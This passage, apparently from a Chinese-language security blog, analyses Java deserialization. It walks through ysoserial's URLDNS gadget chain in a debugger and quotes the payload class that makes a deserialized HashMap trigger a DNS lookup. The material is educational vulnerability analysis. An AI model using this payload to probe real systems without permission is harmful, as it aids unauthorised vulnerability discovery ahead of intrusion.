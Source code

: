 竟然报错了，就先看一下URLDNS在ysorialse中的Payload实现，没看太懂，网上查了一下资料，原来是要放一个url，通过触发DNS查询判断是否存在漏洞

然后我们使用ysoserial生成payload，并且自己写一个序列化的代码测试

可以看到（实践中需要注意，DNS查询一次以后可能有缓存，多次使用更换子域名好一些）

![1-1](https://milkfr.github.io/assets/images/posts/2018-11-31-analysis-java-deserialize/1-1.png)

看到上面这个会不会很惊恐，因为自己写的测试代码没有做任何操作，只是普普通通readObject就造成了反序列化漏洞，解析了DNS？

实际上就是这样，虽然解析DNS不是什么大风险，但是什么都不做，只是单单调用readObject就造成了反序列化漏洞

#### gadget流程
我们debug来看，这里要注意，直接在readObject出打断点，IDE是不会自动step into的，必须找到gadgat chain，也就是Payload注释里的HashMap的readObject

我们一路step over到payload的提示的gadget的`URL.hashcode`函数

![1-2](https://milkfr.github.io/assets/images/posts/2018-11-31-analysis-java-deserialize/1-2.png)

这个时候还是不能发现什么问题，只是看到没有直接返回，而是进入了`handle.hashCode`，所以继续step in

![1-3](https://milkfr.github.io/assets/images/posts/2018-11-31-analysis-java-deserialize/1-3.png)

通过Debug到`handle.hashCode`和它调用的`getHostAddress`到了这里其实就比较清晰了，也看到了解析出IP地址，也就是触发了漏洞

#### 回头看payload

```
/*
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
```